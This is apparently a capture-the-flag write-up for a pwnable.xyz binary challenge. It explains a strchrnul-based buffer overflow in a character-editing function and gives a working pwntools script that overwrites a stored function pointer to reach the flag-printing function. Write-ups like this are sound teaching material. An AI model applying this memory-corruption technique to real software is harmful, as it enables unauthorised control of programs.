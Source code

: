 # Overview

Initially the program prompts for username then continue with the menu. Users can 

![image](https://user-images.githubusercontent.com/17574533/213935649-31831ddb-5841-412e-a601-f17a7832d306.png)

## Options

![image](https://user-images.githubusercontent.com/17574533/214160453-7ab8f668-4b93-4e11-8ff6-aea34e6a927b.png)

Option 1 calls the _game_. A game is stored at `**(cur+0x88)`

Option 2 calls `save_game()`

Option 3 calls `delete_save()`

Option 4 just prints the current name

Option 5 calls `edit_char()`

Option 0 exits the program


## Option 0

Exits the program


# Goal

Call `win` which will print out the flag

![image](https://user-images.githubusercontent.com/17574533/214160966-a2e89a85-3432-42b7-a5be-e7592d26eec8.png)


# Vulnerability

Buffer Overflow: 

`edit_char` uses `strchrnul` which [returns a pointer to the null byte at the end of the string, rather than NULL](https://linux.die.net/man/3/strchrnul). It is used here without checking the bounds of the character to replace.

This example replaces `Z` with `f`. `Z` doesn't exist so the `0x00` is replaced instead
| Before | After |
| - | - |
| ![image](https://user-images.githubusercontent.com/17574533/214178199-ea6f00ca-1436-4427-8183-1ce32d4e59a9.png) | ![image](https://user-images.githubusercontent.com/17574533/214178210-5bf2fc37-64f2-4f1f-bf71-42b8c5b8b80a.png) |

By replacing multiple `0x00` we can 'grow' the name string to also include the bytes beyond its original length.


# Observation

1. The maximum length of name is `0x7f` or 127. This includes `\n` and `\x00` when entering manually

2.

![image](https://user-images.githubusercontent.com/17574533/214178284-b423b1ee-873e-419d-a8d9-1d8ee08a4068.png)

The game is stored at `cur+0x88` (highlighted). It can be overwritten using `edit_char`

3. The default game address is at `0x00400d6b`

4. The address of win is located at `0x00400cf3`


# Exploit

1. Use Option 5 to replace `0x00` until the name string grows to include the word at `cur+0x88`
2. Use Option 5 to replace `0x00400d6b` to `0x00400cf3` (change 2 lower bytes)
3. Use Option 1 to jump to win function

## Code

``` python
from pwn import *

e = ELF("challenge")
p = remote("svc.pwnable.xyz", 30015)

payload = b"D" * 0x7f
p.recvuntil(b":")
p.send(payload)

# grow the string
# change 5 \x00 to D with strchrnul
for i in range(0, 5):
    p.recvuntil(b">")
    p.sendline(b'5')
    p.recvuntil(b":")
    p.sendline(b'Z')
    p.sendline(b'D')

# change 0x400d6b to 0x400cf3
p.recvuntil(b">")
p.sendline(b'5')
p.recvuntil(b":")
p.sendline(b'\x0d')
p.sendline(b'\x0c')

p.recvuntil(b">")
p.sendline(b'5')
p.recvuntil(b":")
p.sendline(b'\x6b')
p.sendline(b'\xf3')

# Jump to win
p.sendline(b'1')
p.interactive()
```

Note: This exploit works _sometimes_ because the number of `\x00` to be replaced varies. Just run multiple times
